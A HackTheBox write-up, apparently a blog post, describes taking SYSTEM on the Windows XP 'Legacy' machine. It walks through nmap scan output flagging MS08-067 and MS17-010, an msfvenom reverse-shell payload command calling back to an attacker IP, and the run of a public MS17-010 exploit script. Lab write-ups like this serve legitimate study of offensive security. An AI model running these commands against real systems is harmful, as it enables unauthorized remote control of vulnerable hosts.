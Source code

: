 ```yaml
---
title: Legacy Machine HackTheBox 
author: pwnd_root
date: 2020-07-09 00:30:00 +0530
excerpt: A windows host from HackTheBox, owned by exploiting SMB vulnerability, without metasploit.
thumbnail: /assets/img/posts/legacy/info.png
categories: [HackTheBox, Machine]
tags: [htb, samba, without metasploit, MS17-010, windows]
---
```

![Info Card](/assets/img/posts/legacy/info.png)

## Methodology
1. Port Enumeration
2. Samba version enumeration
3. Manual exploit
4. SYSTEM access to target

## Port Enumeration
The nmap port scan had identified 2 open ports- netbios-ssn (139) and microsoft-ds (445), running SMB services.
The vulnerability script scan had identified the vulnerabilities **MS08-067** and **MS17-010** from the Microsoft 
Security Bulletin.  
``` 
[pwnd_root@manjaro Legacy]$ targetRecon 10.10.10.4
[+] Open Ports Scan
        139     netbios-ssn
        445     microsoft-ds
[+] Scripts Scan
                 nmap -sV -sC --script=vuln -p 139 10.10.10.4

Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:52 IST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4 (10.10.10.4)
Host is up (0.36s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1                                                                                                 
|        servers (ms17-010).                                                                                                                                                     
|                                                                                                                                                                                
|     Disclosure date: 2017-03-14                                                                                                                                                
|     References:                                                                                                                                                                
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx                                                                                                       
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/                                                                            
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143                                                                                                             

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                   
Nmap done: 1 IP address (1 host up) scanned in 54.69 seconds                                                                                                                     

                 nmap -sV -sC --script=vuln -p 445 10.10.10.4

Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:53 IST                                                                                                                  
Pre-scan script results:                                                                                                                                                         
| broadcast-avahi-dos:                                                                                                                                                           
|   Discovered hosts:                                                                                                                                                            
|     224.0.0.251                                                                                                                                                                
|   After NULL UDP avahi packet DoS (CVE-2011-1002).                                                                                                                             
|_  Hosts are all up (not vulnerable).                                                                                                                                           
Nmap scan report for 10.10.10.4 (10.10.10.4)                                                                                                                                     
Host is up (0.34s latency).                                                                                                                                                      

PORT    STATE SERVICE      VERSION                                                                                                                                               
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds                                                                                                                     
|_clamav-exec: ERROR: Script execution failed (use -d to debug)                                                                                                                  
Service Info: OS: Windows XP; CPE: cpe:/o:microsoft:windows_xp                                                                                                                   

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.58 seconds

[+] Summary 
139     netbios-ssn     Microsoft Windows netbios-ssn N/A
Vulnerabilities
['smb-vuln-ms08-067', 'smb-vuln-ms17-010']

445     microsoft-ds    Microsoft Windows XP microsoft-ds N/A
Vulnerabilities
['smb-vuln-ms08-067', 'smb-vuln-ms17-010']
```
## Manual Exploit
The exploits from exploit-db for **MS17-010** did not work as expected. With the intention of avoiding metasploit module, 
after googling for a while a working
 manual exploit named [send_and_execute.py](https://github.com/helviojunior/MS17-010) was found. 
 > Note: The exploit requires **Impacket** and **mysmb.py** in order to work.

## SYSTEM access
As per the source code, the exploit takes two mandatory arguments, *target IP* and the *executable* that gets executed on the
target as *SYSTEM* user. A windows reverse shell as an executable was generated with *msfvenom* as follows.
``` 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=9090 EXITFUNC=thread -f exe -a x86 --platform windows -o legacy.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: legacy.exe
```
Post generating the reverse shell, a netcat listener on port 9090 was started on the attacking machine. The exploit was 
executed as ```python2.7 send_and_execute.py 10.10.10.4 legacy.exe```
After successful execution of the exploit, a reverse shell was captured on the netcat listener.

![User Shell](/assets/img/posts/legacy/user.png)

![SYSTEM Shell](/assets/img/posts/legacy/system.png)

> Being an old Windows XP OS, the target did not have *whoami* binary installed. One method of finding out the current 
user is to upload a *32-bit whoami executable* to the target and use it. However the easiest way to check if we have
*Administrator* access, is by checking if **root.txt** from *C:\Documents and Settings\Administrator\Desktop* is readable.